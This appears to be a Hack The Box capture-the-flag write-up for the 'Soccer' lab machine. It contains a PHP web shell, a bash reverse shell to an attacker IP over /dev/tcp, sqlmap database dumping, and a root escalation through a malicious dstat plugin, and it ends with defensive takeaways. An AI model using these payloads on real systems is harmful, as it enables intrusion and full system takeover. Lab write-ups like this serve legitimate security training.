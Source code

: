 # HTB: Soccer

## Engagement Overview
**Target:** Soccer (HTB)  
**Box IP:** 10.10.11.194  
**Date:** 2025-09-06  
**Attacker Host:** 10.10.14.13  

---

### Objectives
- Obtain initial foothold on the web server.
- Escalate to a user shell and capture `user.txt`.
- Escalate to root and capture `root.txt`.

---

## Service Enumeration

### Nmap
```bash
nmap -sC -sV -oA soccer.init 10.10.11.194
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
9091/tcp open  http
```
- Port 80 redirects to `http://soccer.htb/`
- Gobuster found `/tiny` (Tiny File Manager).

### Directory Brute Force
```bash
gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```
```
/tiny (301)
```

---

## Initial Access

### Web Shell Upload via Tiny File Manager

shell.php:

```php
<?php system($_REQUEST['cmd']); ?>
```

```bash
# Uploaded shell.php in /tiny
curl -X POST -F "file=@shell.php" http://soccer.htb/tiny/uploads/
```

Burp suite repeater requst change to post:

```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.13/9091 0>&1'

# encode with ^u

cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.13%3a9091+0>%261'
```

Triggered shell:

```bash
nc -lvnp 9091
# Then accessed http://soccer.htb/tiny/uploads/shell.php
```

Upgraded TTY:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo;fg


export TERM=xterm
```

### Local Service Recon
```bash
ss -ltnp
```
```
127.0.0.1:3306  (MySQL)
127.0.0.1:3000  (Node/Express)
0.0.0.0:80      (nginx)
```

### Nginx vhosts
```
soccer.htb  → nginx root
soc-player.soccer.htb  → proxy to localhost:3000
```

---

## SQL Injection → Credential Extraction

### Identifying Injection
During browsing of `soc-player.soccer.htb`, ticket request form was tested. Using **BurpSuite**, intercepted requests showed injectable parameters.

### Verifying Injection
```bash
sqlmap -r login.req --batch --dbs
```
```
available databases [2]:
[*] information_schema
[*] soccer_db
```

### Extracting Tables & Data
```bash
sqlmap -r login.req -D soccer_db --tables
sqlmap -r login.req -D soccer_db -T users --dump
```
```
+----+----------+-------------------+
| id | user     | password          |
+----+----------+-------------------+
| 1  | player   | PlayerPass123!    |
+----+----------+-------------------+
```

This provided valid credentials for SSH.

---

## User Access

### SSH as Player
Recovered `player` credentials from app configs and logged in:
```bash
ssh player@10.10.11.194
```

Captured user flag:
```bash
cat user.txt
a92099f7e4ca0b2f7d73233c1ffe65bf
```

---

## Privilege Escalation

### Misconfigured `doas` Rule
```bash
cat /usr/local/etc/doas.conf
```
```
permit nopass player as root cmd /usr/bin/dstat
```

### Exploiting dstat Plugin Path
```bash
echo -e 'import os\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_exploit.py
doas /usr/bin/dstat --exploit
```

Got root shell:
```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

Captured root flag:
```bash
cat /root/root.txt
46001e33362eb61261de64adff98cafc
```

---

## House Cleaning
- Removed `shell.php` from `/var/www/html/tiny/uploads/`
- Deleted malicious plugin `/usr/local/share/dstat/dstat_exploit.py`

---

## Tools Utilized
- `nmap`, `gobuster`, `curl`
- `netcat`, `python3` pty for TTY
- `doas`, `dstat` (abused for escalation)

---

## Key Takeaways
- **Tiny File Manager** upload function allowed arbitrary PHP upload → foothold.
- **doas misconfiguration** enabled root execution of `dstat`; unsafe due to plugin loading.
- Defense should restrict access to admin panels, disable PHP execution in uploads, and audit privilege escalation configs.
